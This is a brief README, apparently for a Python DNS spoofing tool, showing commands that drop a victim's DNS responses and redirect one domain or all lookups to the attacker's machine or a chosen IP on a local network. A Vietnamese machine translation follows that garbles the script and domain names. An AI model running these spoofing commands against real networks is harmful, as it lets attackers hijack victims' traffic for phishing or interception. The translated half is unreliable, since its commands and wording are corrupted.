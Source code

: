 # DNS-SPOOFING
DNS spoofer. Drops DNS responses from the router and replaces it with the spoofed DNS response
dnsspoof
DNS spoofer. Drops DNS responses before they hit the router then replaces them with the spoofed DNS response.

Usage
(python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoof.com)
Spoof domaintospoof.com to point back to the attack's machine.

python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
Spoof all DNS lookup requests to point to 80.87.128.67 (stallman.org). One can also use the -t option with the -d option to redirect just a specific domain to a specific IP rather than redirecting that domain to the attack
(
Máy đánh lừa DNS. Giảm phản hồi DNS trước khi chúng vào bộ định tuyến sau đó thay thế chúng bằng phản hồi DNS giả mạo.

Sử dụng
(python dnsspoust.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoust.com)
Giả mạo domaintospoust.com để quay lại cỗ máy của cuộc tấn công.

python dnsspoust.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
Giả mạo tất cả các yêu cầu tra cứu DNS để trỏ đến 80.87.128.67 (stallman.org). Người ta cũng có thể sử dụng tùy chọn -t với tùy chọn -d để chỉ chuyển hướng một tên miền cụ thể sang một IP cụ thể thay vì chuyển hướng tên miền đó sang cuộc tấn công)
